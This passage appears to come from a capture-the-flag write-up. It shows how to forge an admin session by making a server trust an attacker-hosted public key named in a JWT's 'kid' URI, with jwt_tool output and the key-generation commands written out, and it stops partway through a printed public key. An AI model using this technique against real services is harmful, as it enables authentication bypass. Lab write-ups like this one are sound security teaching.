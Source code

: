 Now we want to log in as the `admin`-user. Let's start by having a look at our cookies. We can see a `jwt`-cookie in there:

![](02.png "")

Let's look closer at this `JWT` using `jwt_tool.py`:

```bash
$ /opt/jwt_tool/jwt_tool.py eyJ0eXAiOiJKV1QiLCJhbGciOiJSUzI1NiIsImtpZCI6Imh0dHA6XC9cL2xvY2FsaG9zdFwvand0UlMyNTYua2V5LnB1YiJ9.eyJ1c2VybmFtZSI6InRlc3QifQ.xl3jDlNK0trxkNjEQC5cNxWzZzPGUgGaLIiKHWv6hf2WvEzuuZbTaLSiZNDavs7V7SijOYH1IFQ8vjS_qd2-XQtf4Lc_WR7slsNDlpib4zK7MKXFbzoOm7XQF8bTafl_CBGYB2GU587ZdTsv5FoUPWfe6_XXiHTpQkVZKs-TGs8HQUtF0lDQ0f72XBMtioMoj7BM5cxfoQNYf72UOqucrYmpN_IOjb0ViOBTbU_mpDbrzAYStjqIpmze4mjogQfk5POY1cU3WWZYHv5fmRgBn_dR58IMsedrIdnAsw98J8XSxALFr1DwLC7EVf6rriP_r-3dJJFtEhhTSPQiVZUtrfAZexR7Gw0eg6cdOCICexmAdYw-9TGczzC26Y9R51G-NOHpTPvhw_qU2uD86PQZznN3GpemxvQyMW7c85zs9zGJlJ7TSRs72EJEdeCo08UQ12uuIzIJ2S-WMmoBPcEaibKS3ct-gOGP73ShRfIHF95MHjOcj5B4KHDRApOtL1bLE4p6Hri4m_W6J3U8GaxNctp-QTiSoxYA1dLYWWG9B9vvNhCH_ZKzTshuiC-Qhg3y-0IPPgVcxMUkE7LpbSOdSqIZP0_FJ--Nd5Ebat1I7iJKSGnTVeUILOUBYSuyaG1w5wp1ghqIFk5xwS6sMbIm_tCEJlMgWmWgFyerjh3QaI8

Original JWT:

=====================
Decoded Token Values:
=====================

Token header values:
[+] typ = "JWT"
[+] alg = "RS256"
[+] kid = "http://localhost/jwtRS256.key.pub"

Token payload values:
[+] username = "test"
```

We can now see the contents of our `JWT` and we can see that the token is signed with the `RS256` algorithm and that the `kid` field is present. The `kid`-field tells the server which public key to use to verify the signature of the token. It looks like the server accepts a `URI` to specify the location of the public key to use. We can see that `localhost` is used, but maybe we can trick the target server into using a public key that we create and host on our own server? If so, we can easily create a valid token by using the private key that we control to sign it.

Let's create our own private and a public key:

```bash
$ ssh-keygen -t rsa -b 4096 -m PEM -f jwtRS256.key
Generating public/private rsa key pair.
Enter passphrase (empty for no passphrase):
Enter same passphrase again:
Your identification has been saved in jwtRS256.key
Your public key has been saved in jwtRS256.key.pub
The key fingerprint is:
SHA256:4F5Q7L3Xen5mA7VcLfk5wf5pQ1o70Rcje/NKhA4lV5E hag@hag-desktop

$ openssl rsa -in jwtRS256.key -pubout -outform PEM -out jwtRS256.key.pub
writing RSA key
$ ll
total 16
-rw------- 1 hag hag 3243 Dec 26 03:38 jwtRS256.key
-rw-r--r-- 1 hag hag  800 Dec 26 03:38 jwtRS256.key.pub

$ cat jwtRS256.key.pub
-----BEGIN PUBLIC KEY-----
MIICIjANBgkqhkiG9w0BAQEFAAOCAg8AMIICCgKCAgEArfzAYuKgU6IFHh9jdZGQ
P4OcyVDGO0n8IO4lHmL21j68YfJmbIo7/lyjnMYYfbIhw8CKxzchV3YOrnhaEQbO
```